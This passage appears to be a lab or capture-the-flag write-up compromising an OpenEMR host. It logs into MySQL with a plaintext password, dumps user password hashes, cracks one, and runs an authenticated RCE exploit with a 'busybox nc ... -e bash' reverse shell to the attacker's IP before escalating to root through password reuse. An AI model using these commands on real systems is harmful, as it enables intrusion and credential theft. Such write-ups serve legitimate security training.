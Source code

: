 ```
mysql -u openemr -pC78maEQUIEuQ -h 192.168.180.145
```
![](../attachment/474752dace23226a4db98d9fb59e8bb3.png)
There are 2 databases.

In openemr database:
![](../attachment/115a287d01e315cad05854a1fad168ac.png)
```
select username,password from users_secure;
```
![](../attachment/7f9e3166446ab29a82d0e431ef375f49.png)
Now we can crack this hash:
![](../attachment/e885e12be2eabb3f0ea3f2c2ecf040a8.png)

Using this password we can use an authenticated rce.
![](../attachment/013e6b8b1d80cfa6b8a99d4b0f981544.png)
```
python2 45161.py http://192.168.180.145/openemr -u admin -p thedoctor -c "busybox nc 192.168.45.212 443 -e bash"****
```
![](../attachment/6bd89842cb422a1527e6e778a590f824.png)

Now using the same password:
![](../attachment/7fc82addb14aa9938e44aaeba501fb36.png)
We are root.
